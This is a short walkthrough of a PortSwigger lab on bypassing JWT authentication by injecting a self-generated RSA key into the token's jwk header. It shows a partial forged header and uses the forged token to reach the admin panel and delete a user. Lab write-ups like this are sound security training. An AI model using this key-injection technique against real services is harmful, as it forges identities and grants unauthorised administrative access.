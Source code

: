 # [Lab: JWT authentication bypass via jwk header injection](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jwk-header-injection)

## Lab

This lab uses a JWT-based mechanism for handling sessions. The server supports the  `jwk`  parameter in the  [JWT](https://portswigger.net/web-security/jwt)  header. This is sometimes used to embed the correct verification key directly in the token. However, it fails to check whether the provided key came from a trusted source.

To solve the lab, modify and sign a JWT that gives you access to the admin panel at  `/admin`, then delete the user  `carlos`.

You can log in to your own account using the following credentials:  `wiener:peter`

## Solution

intercept a request contains jwt.

generate RSA key:
![generate-key](../../img/lab-4-generate-rsa-key.png)

sign with rsa:
![sign](../../img/lab-4-sign.png)

copy key to `jwk` at header:

```json
{
    "kid": "2b02f383-bc32-45ff-8067-8079b70b90e8",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "p": "-m6TGEZy1OEuMUc9D8ws1FTtAyaD2OVpGBDauMOIVmbRKFkkaHfAR-qk7A1szo-VtW4mZ3vkD-9bGRNQ7ttEFhaPz1iArG0gveJTcdliLoaGxL9aVEWlXF6wJtKcn9HPaPxQzMWmrEOr1g4yb8yUmrWZeCiGATSYgjKvVEwULuE",
        ...
        "e": "AQAB",
        "kid": "2b02f383-bc32-45ff-8067-8079b70b90e8",
        ...
    }
}
```

now we can use this jwt to login as administrator and delete carlos.
